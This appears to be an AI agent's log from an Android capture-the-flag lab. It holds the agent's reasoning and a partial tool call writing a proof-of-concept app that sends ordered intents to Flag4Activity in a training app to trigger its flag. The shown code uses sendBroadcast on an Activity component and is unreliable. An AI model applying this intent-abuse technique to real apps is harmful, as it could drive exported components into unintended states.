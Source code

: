 tool_use_prompt_tokens_details=None, total_token_count=18930, traffic_type=None), automatic_function_calling_history=[], parsed=None)

--- Parsed Reasoning/Thought ---
**My Analysis of the Updated PoC for Flag4Activity**

Okay, let's break this down. First, the code, `MaliciousFlag4PoC.java`, seems sound in its intent. It's built to interact with `Flag4Activity`, targeting the correct package and activity and, critically, understands the required state transitions.  It knows to send `INIT_ACTION` to reset, then `PREPARE_ACTION`, `BUILD_ACTION`, and `GET_FLAG_ACTION` in the correct sequence. The really important addition here is the final, *empty* intent after the `GET_FLAG_ACTION`.

My threat modeling isn't really relevant here; I'm not looking at a broader threat landscape. This is purely about validating a Proof-of-Concept, and it's designed specifically to exercise the state machine in `Flag4Activity`.

Tracing the data flow is straightforward.  `INIT` resets the state to a known starting point. Then, following the sequence, it progresses through `PREPARE`, `BUILD`, and finally, `GET_FLAG`.  According to my understanding of the target code, being in the `GET_FLAG` state (which lines up with the `i == 4` condition in the `switch` statement), *any* incoming intent should trip the `success(this)` method. That empty intent is *supposed* to be the final straw that breaks the camel's back.

I'm not bothering with security controls; that's not the goal here. It's about triggering a specific behavior in the target application.

Therefore, my hypothesis is that this updated PoC, now that it includes the final trigger, should work. It follows the intended state transitions perfectly, and based on my analysis of `Flag4Activity.java`, the empty intent should be the missing piece.  I'm confident enough to write this updated PoC to a file and see if my analysis holds true in practice.

--- Tool Call ---
write_to_file({'content': 'package com.example.maliciousapp;\n'
            '\n'
            'import android.app.Activity;\n'
            'import android.content.ComponentName;\n'
            'import android.content.Intent;\n'
            'import android.os.Bundle;\n'
            'import android.util.Log;\n'
            'import android.widget.Toast;\n'
            '\n'
            'public class MaliciousFlag4PoC extends Activity {\n'
            '\n'
            '    private static final String TARGET_PACKAGE = '
            '"io.hextree.attacksurface";\n'
            '    private static final String TARGET_ACTIVITY = '
            '"io.hextree.attacksurface.activities.Flag4Activity";\n'
            '\n'
            '    private static final String PREPARE_ACTION = '
            '"PREPARE_ACTION";\n'
            '    private static final String BUILD_ACTION = "BUILD_ACTION";\n'
            '    private static final String GET_FLAG_ACTION = '
            '"GET_FLAG_ACTION";\n'
            '    private static final String INIT_ACTION = "INIT_ACTION"; // '
            'For resetting the state if needed\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC '
            'started.");\n'
            '\n'
            "        // Optional: Reset state to INIT if it's not already, to "
            'ensure a clean run\n'
            '        Intent resetIntent = new Intent(INIT_ACTION);\n'
            '        resetIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(resetIntent);\n'
